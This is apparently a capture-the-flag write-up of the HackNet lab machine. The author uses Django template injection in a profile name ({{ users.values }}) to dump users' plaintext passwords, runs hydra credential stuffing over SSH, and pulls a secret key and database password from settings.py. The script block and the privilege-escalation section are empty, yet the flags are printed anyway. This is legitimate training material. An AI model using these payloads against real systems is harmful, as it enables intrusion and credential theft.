








### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oN nmap.txt
```



we can see port `22` for `ssh` and port `80` for `nginx`.
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 95:62:ef:97:31:82:ff:a1:c6:08:01:8c:6a:0f:dc:1c (ECDSA)
|_  256 5f:bd:93:10:20:70:e6:09:f1:ba:6a:43:58:86:42:66 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://hacknet.htb/
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `hacknet.htb` to our `/etc/hosts`:
```bash
10.10.11.85     hacknet.htb
```

### Exploiting SSTI to get IDOR which gives password for users

I scanned the whole pages, I tried to upload webshell for a while but for some reason it didn't work.
Later, i understood this is python framework behind the scenes, more specific `Django` framework, so it simply not executing `php` files.

So, i kept looking for vulnerabilities, until i noticed `SSTI` vulnerability.

First I set my name to {{7*7}} 



Then, i want to http://hacknet.htb/explore, and put like to the first user i saw, in this case "glitch".
After putting like, i clicked the "likes" to see who put likes over this post, and saw that something went wrong.



I tried different payloads from https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Python, to detect exactly what is the framework behind the scenes.



I tried `ih0vr{{364|add:733}}d121r`, and got back `ih0vr1097d121r`, which is pointing over `Django` framework behind the scenes.



The problem with that is that `DTL`, or `Django Template Langauge` is very strict, so i can't execute commands at all, or even include variables that are globals.
The only thing i can do is to include variables that are in context, which means the Template Engine uses on run.

First, i tried the `users` variable, because it probably exists, something that holds all the users on the page, to print their attributes and use their image. I sent this payload: {{ users }}:

I got back this response:



Which after html decoding gave me:
```py
<QuerySet [<SocialUser: hexhunter>, <SocialUser: rootbreaker>, <SocialUser: netninja>, <SocialUser: shadowmancer>, <SocialUser: stealth_hawk>, <SocialUser: virus_viper>, <SocialUser: brute_force>, <SocialUser: {{ users.values }}>, <SocialUser: {{ users }}>]>
```

Okay, let's get the values, using {{ users.values }}:

I got this long response:



Which after decoding:
```py
<QuerySet [{'id': 2, 'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!', 'picture': '2.jpg', 'about': 'A seasoned reverse engineer specializing in binary exploitation. Loves diving into hex editors and uncovering hidden data.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 3, 'email': 'rootbreaker@exploitmail.net', 'username': 'rootbreaker', 'password': 'R00tBr3@ker#', 'picture': '3.jpg', 'about': 'Expert in privilege escalation and bypassing security measures. Always on the lookout for new zero-day vulnerabilities.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 13, 'email': 'netninja@hushmail.com', 'username': 'netninja', 'password': 'N3tN1nj@2024', 'picture': '13.png', 'about': 'Network security expert focused on intrusion detection and prevention. Known for slicing through firewalls with ease.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 16, 'email': 'shadowmancer@cypherx.com', 'username': 'shadowmancer', 'password': 'Sh@d0wM@ncer', 'picture': '16.png', 'about': 'A master of disguise in the digital world, using cloaking techniques and evasion tactics to remain unseen.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 20, 'email': 'stealth_hawk@exploitmail.net', 'username': 'stealth_hawk', 'password': 'St3@lthH@wk', 'picture': '20.jpg', 'about': 'Focuses on stealth operations, avoiding detection while infiltrating systems. A ghost in the machine.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 23, 'email': 'virus_viper@securemail.org', 'username': 'virus_viper', 'password': 'V!rusV!p3r2024', 'picture': '23.jpg', 'about': 'A malware creator focused on developing viruses that spread rapidly. Known for unleashing digital plagues.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 24, 'email': 'brute_force@ciphermail.com', 'username': 'brute_force', 'password': 'BrUt3F0rc3#', 'picture': '24.jpg', 'about': 'Specializes in brute force attacks and password cracking. Loves the challenge of breaking into locked systems.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 31, 'email': 'simple1@gmail.com', 'username': '{{ users.values }}\r\n', 'password': '1', 'picture': 'profile.png', 'about': '', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}]>
```

This basically gave me the usernames and passwords of all users that put like over this page!
For example, `'email': 'hexhunter@ciphermail.com', 'username': 'hexhunter', 'password': 'H3xHunt3r!'`.

Now, we'll use this python script to fetch all passwords and usernames, notice in the case above, we want no the username, rather the left side if `hexhunter@ciphermail.com`, the name of the user from the mail:
```py

```

And we got this list:
```bash
blackhat_wolf:Bl@ckW0lfH@ck
brute_force:BrUt3F0rc3#
bytebandit:Byt3B@nd!t123
codebreaker:C0d3Br3@k!
cryptoraven:CrYptoR@ven42
cyberghost:Gh0stH@cker2024
darkseeker:D@rkSeek3r#
datadive:D@taD1v3r
deepdive:D33pD!v3r
exploit_wizard:Expl01tW!zard
glitch:Gl1tchH@ckz
hexhunter:H3xHunt3r!
mikey:mYd4rks1dEisH3re
netninja:N3tN1nj@2024
packetpirate:P@ck3tP!rat3
phreaker:Phre@k3rH@ck
rootbreaker:R00tBr3@ker#
shadowcaster:Sh@d0wC@st!
shadowmancer:Sh@d0wM@ncer
shadowwalker:Sh@dowW@lk2024
stealth_hawk:St3@lthH@wk
trojanhorse:Tr0j@nH0rse!
virus_viper:V!rusV!p3r2024
whitehat:Wh!t3H@t2024
zero_day:Zer0D@yH@ck
```

Then, we can use hydra to trying all credentials:
```bash
┌──(agonen㉿kali)-[~/htb/HackNet]
└─$ hydra -C credentials.txt hacknet.htb ssh   
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-25 23:11:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking ssh://hacknet.htb:22/
[22][ssh] host: hacknet.htb   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-25 23:11:40
```
And we got valid credentials, `mikey \ mYd4rks1dEisH3re`



get the user flag:
```bash
mikey@hacknet:~$ cat user.txt 
8aae1b59fc1a16b621564434b4cb2eae
```

### ...... ?????

Inside `/var/www/HackNet/HackNet/settings.py`

I found this 
```py
SECRET_KEY = 'agyasdf&^F&ADf87AF*Df9A5D^AS%D6DflglLADIuhldfa7w'
```

and also this
```py
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'hacknet',
        'USER': 'sandy',
        'PASSWORD': 'h@ckn3tDBpa$$',
        'HOST':'localhost',
        'PORT':'3306',
    }
}
```

Then i connect using `mysql` (show command), and fetch table from hacknet db auth_users, get hash and trying to crack him (not working bro).

### Privilege Escalation to Root


**User Flag:*****`8aae1b59fc1a16b621564434b4cb2eae`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
